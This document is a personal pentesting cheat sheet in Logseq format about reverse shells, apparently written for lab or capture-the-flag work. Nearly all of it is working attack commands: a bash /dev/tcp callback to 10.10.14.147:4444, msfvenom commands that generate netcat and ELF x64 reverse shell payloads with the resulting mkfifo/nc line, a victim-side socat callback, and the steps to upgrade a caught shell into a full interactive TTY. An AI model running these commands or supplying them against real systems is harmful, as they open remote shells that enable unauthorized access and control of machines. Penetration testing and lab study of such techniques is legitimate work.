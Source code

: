 public:: true
tags:: reverse shell

- ### One-liner reverse shell
  For more reverse shell examples check  [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
	  id:: 65534bc6-4e92-4e47-aa27-491d85b83cdd
		- On Kali (Attacker)
		  
		  ```bash
		  socat file:`tty`,raw,echo=0 tcp-listen:4444
		  ```
		- On the victim machine
		  
		  ```bash
		  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
		  ```
	- With `python` + `netcat` + some magic
	  *This is the [Phineas Fisher method](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic).*
		- #+BEGIN_IMPORTANT
		  Do not start the listener with `rlwrap` or it won't work.
		  #+END_IMPORTANT
		- Within the reverse shell
		  
		  ```bash
		  python -c 'import pty; pty.spawn("/bin/bash")'
		  Ctrl-Z
		  ```
		- From Kali
		  ```bash
		  # Works for both: bash and zsh
		  stty raw -echo; fg
		  ```
		  *Please note that `bash` and `zsh` handle the `stty` command in a [different way](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell).*
		- Again within the reverse shell
		  
		  ```bash
		  reset
		  export SHELL=bash
		  export TERM=xterm-256color
		  stty rows <num> columns <cols>
		  ```